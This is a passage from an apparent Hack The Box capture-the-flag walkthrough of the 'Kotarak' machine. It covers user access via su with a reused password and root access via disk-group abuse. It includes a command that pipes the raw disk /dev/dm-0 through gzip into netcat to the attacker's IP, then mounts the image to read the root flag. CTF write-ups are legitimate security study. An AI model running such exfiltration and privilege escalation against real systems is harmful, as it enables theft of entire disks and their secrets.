    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Kotarak]
    → ssh atanas@10.10.10.55
    atanas@10.10.10.55's password:
    Permission denied, please try again.
    atanas@10.10.10.55's password:
    
    

We can't so we're going to go from our previous reverse shell and su there.

    
    
    tomcat@kotarak-dmz:/$
    tomcat@kotarak-dmz:/$ su - atanas
    Password: f16tomcat!
    
    
    atanas@kotarak-dmz:~$ ls -l
    total 4
    -rw-rw---- 1 atanas atanas 33 Jul 19  2017 user.txt
    atanas@kotarak-dmz:~$ cat user.txt
    93XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag!

## **Part 3 : Getting Root Access**

To get the root flag we need to first check the groups the user is into:
    
    
    atanas@kotarak-dmz:~$ id
    uid=1000(atanas) gid=1000(atanas) groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)
    
    atanas@kotarak-dmz:~$ ps -ef | grep lxc
    root        914      1  0 Dec21 ?        00:00:00 /usr/bin/lxcfs /var/lib/lxcfs/
    lxc-dns+   1381      1  0 Dec21 ?        00:00:00 dnsmasq -u lxc-dnsmasq --strict-order --bind-interfaces --pid-file=/run/lxc/dnsmasq.pid --listen-address 10.0.3.1 --dhcp-range 10.0.3.2,10.0.3.254 --dhcp-lease-max=253 --dhcp-no-override --except-interface=lo --interface=lxcbr0 --dhcp-leasefile=/var/lib/misc/dnsmasq.lxcbr0.leases --dhcp-authoritative
    root       1413      1  0 Dec21 ?        00:00:00 [lxc monitor] /var/lib/lxc kotarak-int
    atanas    83412  83387  0 10:29 pts/2    00:00:00 grep --color=auto lxc
    

Here we see something odd, the user atanas is in the disk group, which means that he has access to the drives on this machine. Moreover doing ps -ef we see some lxc processes running, therefore it's safe to assume our next step is to look into the LXC container. But first let's poke around the disks since we should have access to them: 
    
    
    atanas@kotarak-dmz:~$ ls -lash /dev/sd*
    0 brw-rw---- 1 root disk 8, 0 Dec 21 11:45 /dev/sda
    0 brw-rw---- 1 root disk 8, 1 Dec 21 11:45 /dev/sda1
    0 brw-rw---- 1 root disk 8, 2 Dec 21 11:45 /dev/sda2
    0 brw-rw---- 1 root disk 8, 5 Dec 21 11:45 /dev/sda5
    
    atanas@kotarak-dmz:~$ mount | grep root
    /dev/mapper/Kotarak--vg-root on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
    

And here we're hinted at the mounted filesystem Kotarak--vg-root: 
    
    
    atanas@kotarak-dmz:~$ ls -lash /dev/mapper/Kotarak--vg-root
    0 lrwxrwxrwx 1 root root 7 Dec 21 11:45 /dev/mapper/Kotarak--vg-root -> ../dm-0
    
    

And here we see that it's a symlink to /dev/dm-0:
    
    
    atanas@kotarak-dmz:~$ ls -lash /dev/dm-0
    0 brw-rw---- 1 root disk 252, 0 Dec 21 11:45 /dev/dm-0
    
    strings /dev/dm-0
    ^C
    

running the strings command on dm-0 we see that we can actually read the file, therefore let's send it over to our local machine but first let's check if everything we need is there:
    
    
    atanas@kotarak-dmz:~$ which dd
    /bin/dd
    
    atanas@kotarak-dmz:~$ which nc
    /bin/nc
    
    atanas@kotarak-dmz:~$ which gunzip
    /bin/gunzip
    
    

Looks like it, so we're going to use dd to print out the contents of dm-0 pipe it into gunzip to get rid of the unused 0s and pipe it into netcat to send it back to our machine: 
    
    
    atanas@kotarak-dmz:~$ dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.6 9095
    
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/19 ] [~/_HTB/Kotarak]
    → nc -lvnp 9095 > disk.img.gz
    listening on [any] 9095 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.55] 56702
    
    

using gzip is going to compress the file for us to avoid downloading useless gigabytes filled with 0s 

Wait for it to finish, since the compressed file is 2.2G and then decompress it locally (7.5Gigs)
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    →gunzip disk.img.gz
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → ls -lash disk.img
    7.1G -rw-r--r-- 1 nothing nothing 7.0G Dec 22 16:44 disk.img
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → mkdir /mnt/kotarak
    mkdir: cannot create directory ‘/mnt/kotarak’: Permission denied
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → sudo !!
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → sudo mkdir /mnt/kotarak
    [sudo] password for nothing:
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → sudo mount disk.img /mnt/kotarak
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~/_HTB/Kotarak]
    → cd /mnt/kotarak
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [/mnt/kotarak]
    → ls -l
    total 116
    drwxr-xr-x   3 root root  4096 Jul 21  2017 backups
    drwxr-xr-x   2 root root  4096 Jul 10  2017 bin
    drwxr-xr-x   2 root root  4096 Jul  9  2017 boot
    drwxr-xr-x   4 root root  4096 Jul 21  2017 dev
    drwxr-xr-x 105 root root  4096 Jan 18  2018 etc
    drwxr-xr-x   4 root root  4096 Jul 21  2017 home
    drwxr-xr-x  24 root root  4096 Jul 21  2017 lib
    drwxr-xr-x   2 root root  4096 Jul 21  2017 lib32
    drwxr-xr-x   2 root root  4096 Jul 21  2017 lib64
    drwxr-xr-x   2 root root  4096 Jul 21  2017 libx32
    drwx------   2 root root 16384 Jul  9  2017 lost+found
    drwxr-xr-x   4 root root  4096 Jul 21  2017 media
    drwxr-xr-x   2 root root  4096 Jul 19  2016 mnt
    drwxr-xr-x   4 root root  4096 Jul 21  2017 opt
    drwxr-xr-x   2 root root  4096 Jul 21  2017 proc
    drwxrwxrwx   6 root root  4096 Sep 19  2017 root
    drwxr-xr-x   2 root root  4096 Jul  9  2017 run
    drwxr-xr-x   2 root root 12288 Jul 21  2017 sbin
    drwxr-xr-x   2 root root  4096 Jul 21  2017 snap
    drwxr-xr-x   2 root root  4096 Jul 21  2017 srv
    drwxr-xr-x   2 root root  4096 Jul 21  2017 sys
    drwxrwxrwt  10 root root  4096 Dec 22 16:39 tmp
    drwxr-xr-x  13 root root  4096 Jul 21  2017 usr
    drwxr-xr-x  15 root root  4096 Jul 21  2017 var
    lrwxrwxrwx   1 root root    29 Aug 29  2017 vmlinuz -> boot/vmlinuz-4.4.0-87-generic
    lrwxrwxrwx   1 root root    29 Jul 10  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-83-generic
    

And from here just go to the root directory and print out the root flag:
    
    
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [/mnt/kotarak]
    → sudo -i
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [~]
    → cd /mnt/kotarak/var/lib/lxc/kotarak-int/rootfs/root
    
    [ 10.10.14.6/23 ] [ /dev/pts/20 ] [kotarak-int/rootfs/root]
    → cat root.txt
    95XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    [ 10.10.14.6/23 ] [ /dev/pts/18 ] [~/_HTB/Kotarak]
    → sudo umount /mnt/kotarak
    
    

And there you have it!

## **Conclusion**

Here we can see the progress graph :

